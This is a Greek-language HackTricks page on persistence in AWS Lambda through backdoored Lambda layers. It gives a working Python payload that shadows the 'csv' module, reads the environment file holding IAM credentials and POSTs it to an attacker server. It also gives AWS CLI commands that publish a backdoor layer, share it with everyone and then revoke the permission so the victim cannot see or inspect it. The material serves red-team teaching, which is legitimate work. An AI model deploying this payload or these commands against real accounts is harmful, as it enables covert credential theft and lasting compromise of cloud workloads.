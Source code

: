 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Ένα Lambda layer είναι ένα αρχείο .zip που **μπορεί να περιέχει επιπλέον κώδικα** ή άλλο περιεχόμενο. Ένα layer μπορεί να περιέχει βιβλιοθήκες, μια [προσαρμοσμένη εκτέλεση](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), δεδομένα ή αρχεία ρυθμίσεων.

Είναι δυνατόν να συμπεριλάβετε έως **πέντε layers ανά λειτουργία**. Όταν συμπεριλαμβάνετε ένα layer σε μια λειτουργία, το **περιεχόμενο εξάγεται στον φάκελο `/opt`** στο περιβάλλον εκτέλεσης.

Κατά **προεπιλογή**, τα **layers** που δημιουργείτε είναι **ιδιωτικά** για τον λογαριασμό σας AWS. Μπορείτε να επιλέξετε να **μοιραστείτε** ένα layer με άλλους λογαριασμούς ή να **κάνετε** το layer **δημόσιο**. Εάν οι λειτουργίες σας καταναλώνουν ένα layer που δημοσίευσε διαφορετικός λογαριασμός, οι λειτουργίες σας μπορούν να **συνεχίσουν να χρησιμοποιούν την έκδοση του layer μετά την διαγραφή του, ή μετά την ανάκληση της άδειάς σας για πρόσβαση στο layer**. Ωστόσο, δεν μπορείτε να δημιουργήσετε μια νέα λειτουργία ή να ενημερώσετε λειτουργίες χρησιμοποιώντας μια διαγραμμένη έκδοση layer.

Οι λειτουργίες που αναπτύσσονται ως εικόνα κοντέινερ δεν χρησιμοποιούν layers. Αντίθετα, συσκευάζετε την προτιμώμενη εκτέλεση, τις βιβλιοθήκες και άλλες εξαρτήσεις στην εικόνα κοντέινερ όταν δημιουργείτε την εικόνα.

### Python load path

Η διαδρομή φόρτωσης που θα χρησιμοποιήσει η Python στο lambda είναι η εξής:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Έλεγχος του πώς οι **δεύτερες** και τρίτες **θέσεις** καταλαμβάνονται από καταλόγους όπου οι **lambda layers** αποσυμπιέζουν τα αρχεία τους: **`/opt/python/lib/python3.9/site-packages`** και **`/opt/python`**

{% hint style="danger" %}
Εάν ένας επιτιθέμενος καταφέρει να **backdoor** μια χρησιμοποιούμενη **lambda layer** ή **προσθέσει μία** που θα **εκτελεί αυθαίρετο κώδικα όταν φορτώνεται μια κοινή βιβλιοθήκη**, θα είναι σε θέση να εκτελεί κακόβουλο κώδικα με κάθε κλήση lambda.
{% endhint %}

Επομένως, οι απαιτήσεις είναι:

* **Έλεγχος βιβλιοθηκών** που είναι **φορτωμένες** από τον κώδικα των θυμάτων
* Δημιουργία μιας **proxy βιβλιοθήκης με lambda layers** που θα **εκτελεί προσαρμοσμένο κώδικα** και θα **φορτώνει την αρχική** βιβλιοθήκη.

### Προφορτωμένες βιβλιοθήκες

{% hint style="warning" %}
Όταν εκμεταλλεύτηκα αυτή την τεχνική, βρήκα μια δυσκολία: Ορισμένες βιβλιοθήκες είναι **ήδη φορτωμένες** στο runtime της python όταν εκτελείται ο κώδικάς σας. Περίμενα να βρω πράγματα όπως `os` ή `sys`, αλλά **ακόμα και η βιβλιοθήκη `json` ήταν φορτωμένη**.\
Για να εκμεταλλευτείτε αυτή την τεχνική επιμονής, ο κώδικας πρέπει να **φορτώσει μια νέα βιβλιοθήκη που δεν είναι φορτωμένη** όταν εκτελείται ο κώδικας.
{% endhint %}

Με έναν κώδικα python όπως αυτόν είναι δυνατόν να αποκτηθεί η **λίστα των βιβλιοθηκών που είναι προφορτωμένες** μέσα στο runtime της python σε lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Και αυτή είναι η **λίστα** (ελέγξτε ότι οι βιβλιοθήκες όπως `os` ή `json` είναι ήδη εκεί)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Και αυτή είναι η λίστα με τις **βιβλιοθήκες** που **περιλαμβάνει η lambda εγκατεστημένες από προεπιλογή**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Backdooring Lambda Layer

Σε αυτό το παράδειγμα ας υποθέσουμε ότι ο στοχευμένος κώδικας εισάγει **`csv`**. Θα **backdoor-άρουμε την εισαγωγή της βιβλιοθήκης `csv`**.

Για να το κάνουμε αυτό, θα **δημιουργήσουμε τον φάκελο csv** με το αρχείο **`__init__.py`** μέσα σε μια διαδρομή που φορτώνεται από τη lambda: **`/opt/python/lib/python3.9/site-packages`**\
Έτσι, όταν η lambda εκτελείται και προσπαθεί να φορτώσει **csv**, το **αρχείο `__init__.py` μας θα φορτωθεί και θα εκτελεστεί**.\
Αυτό το αρχείο πρέπει να:

* Εκτελεί το payload μας
* Φορτώνει την αρχική βιβλιοθήκη csv

Μπορούμε να κάνουμε και τα δύο με:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Τότε, δημιουργήστε ένα zip με αυτόν τον κώδικα στη διαδρομή **`python/lib/python3.9/site-packages/__init__.py`** και προσθέστε το ως ένα lambda layer.

Μπορείτε να βρείτε αυτόν τον κώδικα στο [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Το ενσωματωμένο payload θα **στείλει τα IAM creds σε έναν διακομιστή ΤΗΝ ΠΡΩΤΗ ΦΟΡΑ που θα κληθεί ή ΜΕΤΑ από μια επαναφορά του κοντέινερ lambda** (αλλαγή κώδικα ή κρύα lambda), αλλά **άλλες τεχνικές** όπως οι παρακάτω θα μπορούσαν επίσης να ενσωματωθούν:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Εξωτερικά Layers

Σημειώστε ότι είναι δυνατό να χρησιμοποιήσετε **lambda layers από εξωτερικούς λογαριασμούς**. Επιπλέον, ένα lambda μπορεί να χρησιμοποιήσει ένα layer από έναν εξωτερικό λογαριασμό ακόμη και αν δεν έχει δικαιώματα.\
Επίσης σημειώστε ότι ο **μέγιστος αριθμός layers που μπορεί να έχει ένα lambda είναι 5**.

Επομένως, προκειμένου να βελτιωθεί η ευελιξία αυτής της τεχνικής, ένας επιτιθέμενος θα μπορούσε να:

* Backdoor ένα υπάρχον layer του χρήστη (τίποτα δεν είναι εξωτερικό)
* **Δημιουργήσει** ένα **layer** στον **λογαριασμό του**, να δώσει στον **λογαριασμό του θύματος πρόσβαση** για να χρησιμοποιήσει το layer, **να ρυθμίσει** το **layer** στο Lambda του θύματος και **να αφαιρέσει την άδεια**.
* Το **Lambda** θα μπορεί ακόμα να **χρησιμοποιεί το layer** και το **θύμα δεν θα** έχει καμία εύκολη δυνατότητα να **κατεβάσει τον κώδικα των layers** (εκτός από το να αποκτήσει ένα rev shell μέσα στο lambda)
* Το θύμα **δεν θα δει εξωτερικά layers** που χρησιμοποιούνται με **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
